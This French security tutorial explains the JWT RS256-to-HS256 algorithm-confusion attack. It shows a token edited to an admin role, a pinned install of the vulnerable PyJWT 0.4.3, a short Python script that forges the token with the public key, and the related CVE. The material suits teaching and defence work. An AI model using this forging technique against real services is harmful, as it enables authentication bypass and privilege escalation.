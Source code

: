 # JWS - RS256 Public-Key as HS256 Secret Attack

En cryptographie asymétrique, la clé publique est en général récupérable par tout le monde. La clé publique sert à chiffrer une donnée à destination du possesseur de la clé privée ou alors à  vérifier la signature d'une donnée signée par le possesseur de la clé privée. En admettant que l'attaquant ai accès à cette clé, il lui est alors parfois possible de modifier le jeton afin de tromper le service consommateur en lui faisant croire qu'il s'agit d'un jeton signé utilisant un secret partagé.

 Admettons le jeton suivant :

`{  
  "alg":"RS256",  
  "typ":"JWT"  
}  
{  
  "name":"Sharpforce",  
  "role":"User"  
}`

Etant donné que le jeton est signé en utilisant un algorithme asymétrique, le service doit normalement vérifier la signature en utilisant la clé publique à sa disposition. Mais l'attaquant peut tenter de forcer le service à vérifier le jeton en lui faisant croire qu'il s'agit d'une signature à secret partagé \(en modifiant l'algorithme dans l'entête du jeton\) :

`{  
  "alg":"HS256",  
  "typ":"JWT"  
}  
{  
  "name":"Sharpforce",  
  "role":"Admin"  
}`

Cette fois, contrairement à l'attaque précédente, l'attaquant _connait_ la "clé partagée" utilisée pour la signature.

Afin d'[exploiter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token#jwt-signature---rs256-to-hs256) facilement cette vulnérabilité, il est possible d'utiliser la librairie PyJWT de Python :

`pip install pyjwt==0.4.3`

Il est important d'utiliser la version 0.4.3 de la librairie, car sur les versions supérieures utiliser une clé publique en tant que secret partagé est interdit :

```text
Traceback (most recent call last): 
  File "<stdin>", line 1, in <module>
  File "/usr/local/lib/python2.7/dist-packages/jwt/api_jwt.py", line 65, in encode
    json_payload, key, algorithm, headers, json_encoder
  File "/usr/local/lib/python2.7/dist-packages/jwt/api_jws.py", line 113, in encode
    key = alg_obj.prepare_key(key)
  File "/usr/local/lib/python2.7/dist-packages/jwt/algorithms.py", line 151, in prepare_key
    'The specified key is an asymmetric key or x509 certificate and'
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

Puis sous Python \(le fichier _public.pem_ représente la clé publique\) :

```python
import jwt
public = open('public.pem', 'r').read()
print jwt.encode({"name":"Sharpforce", "role":"Admin"}, key=public, algorithm='HS256')
```

Pour résumer, cette attaque consiste à faire passer une signature à clés symétriques à une signature à secret partagé. La clé publique devenant ainsi le secret partagé, l'attaquant peut alors modifier puis signer le jeton illégitime \(ou alors en forger un nouveau\).

Cette vulnérabilité est présente dans la libraire Node.js `jwt-simple` pour les version &lt;= 0.3.0 sous la dénomination CVE-2016-10555 : 

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2016-10555" %}

## \*\*\*\*

